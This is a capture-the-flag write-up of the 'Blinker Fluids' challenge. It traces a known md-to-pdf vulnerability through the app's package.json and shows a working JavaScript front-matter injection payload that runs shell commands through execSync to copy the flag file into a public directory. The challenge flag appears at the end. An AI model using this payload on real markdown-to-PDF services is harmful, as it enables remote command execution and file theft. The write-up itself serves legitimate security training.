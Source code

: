 ## Blinker fluid
> Solved By : Bobbysox, Legend, Starrylord, thewhiteh4t

In blinker fluid challenge our markdown input gets converted into a PDF file available for download.

in the site source we checked `package.json` file :

```json
{
        "name": "blinker-fluids",
        "version": "1.0.0",
        "description": "",
        "main": "index.js",
        "scripts": {
                "start": "node index.js"
        },
        "keywords": [],
        "author": "rayhan0x01",
        "license": "ISC",
        "dependencies": {
                "express": "^4.17.3",
                "md-to-pdf": "^4.1.0",
                "nunjucks": "3.2.3",
                "sqlite-async": "1.1.3",
                "uuid": "8.3.2"
        },
        "devDependencies": {
                "nodemon": "^1.19.1"
        }
}
```

interesting things in this file are : 

```
"md-to-pdf": "^4.1.0"
"nunjucks": "3.2.3"
```

we quickly found the following CVE for `md-to-pdf` : 

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

payload as shown in the link : 

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

the payload did not work for us as it is so we looked for more info on the same and found this : 

https://github.com/11ty/eleventy/issues/1208


[11ty/eleventy#1208](https://github.com/11ty/eleventy/issues/1208)

so basically nunjucks was having issues with single line payload so we settled on the following : 

```
---js
((require("child_process")).execSync("cat ../flag.txt > static/invoices/rce.txt"))
---
```

line 1 and 3 needed to be exactly as above for it to work and we redirected flag to a file in invoices directory…

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```
